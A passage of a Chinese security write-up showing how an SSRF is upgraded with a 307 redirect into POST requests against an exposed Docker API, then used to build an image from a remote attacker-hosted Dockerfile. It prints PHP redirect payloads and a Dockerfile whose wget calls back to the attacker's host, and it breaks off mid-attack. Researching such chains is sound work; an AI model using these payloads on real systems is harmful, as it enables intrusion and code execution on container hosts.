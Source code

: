还记得我们是怎样获得这个GET型的SSRF的吗？通过302跳转，而接受第一次跳转的请求就是一个POST请求。不过我们没法直接利用这个POST请求，因为他的Path不可控。

如何构造一个Path可控的POST请求呢？

我想到了307跳转，307跳转是在RFC 7231中定义的一种HTTP状态码，描述如下：

```php
The 307 (Temporary Redirect) status code indicates that the target resource resides temporarily under a different URI and the user agent MUST NOT change the request method if it performs an automatic redirection to that URI.
```

307跳转的特点就是不会改变原始请求的方法，也就是说，在服务端返回307状态码的情况下，客户端会按照Location指向的地址发送一个相同方法的请求。

我们正好可以利用这个特性，来获得POST请求。

简单修改一下之前的index.php：

```php
<?php
header('Location: http://192.168.1.142:4444/attack?arbitrary=params', false, 307);
```

尝试SSRF攻击，收到了预期的请求：  
![](https://shs3.b.qianxin.com/butian_public/f635d85161a3c3f7aae1d739f39d01b0a.jpg)

Bingo，获得了一个POST请求的SSRF，虽然没有Body。

0x04 攻击Docker API
-----------------

回到Docker API，我发现现在仍然没法对run和exec两个API做利用，原因是，这两个API都需要在请求Body中传输JSON格式的参数，而我们这里的SSRF无法控制Body。

继续翻越Docker文档，我发现了另一个API，Build an image：  
![](https://shs3.b.qianxin.com/butian_public/f1fdc7b95a1d7e28bd1aa76b44eaf81b2.jpg)

这个API的大部分参数是通过Query Parameters传输的，我们可以控制。阅读其中的选项，发现它可以接受一个名为remote的参数，其说明为：

```php
A Git repository URI or HTTP/HTTPS context URI. If the URI points to a single text file, the file’s contents are placed into a file called Dockerfile and the image is built from that file. If the URI points to a tarball, the file is downloaded by the daemon and the contents therein used as the context for the build. If the URI points to a tarball and the dockerfile parameter is also specified, there must be a file with the corresponding path inside the tarball.
```

这个参数可以传入一个Git地址或者一个HTTP URL，内容是一个Dockerfile或者一个包含了Dockerfile的Git项目或者一个压缩包。

也就是说，Docker API支持通过指定远程URL的方式来构建镜像，而不需要我在本地写入一个Dockerfile。

所以，我尝试编写了这样一个Dockerfile，看看是否能够build这个镜像，如果可以，那么我的4444端口应该能收到wget的请求：

```php
FROM alpine:3.13
RUN wget -T4 http://192.168.1.142:4444/docker/build
```

然后修改前面的index.php，指向Docker集群的2375端口：

```php
<?php
header('Location: http://192.168.227.131:2375/build?remote=http://192.168.1.142:4443/

Dockerfile&nocache=true&t=evil:1', false, 307);
```
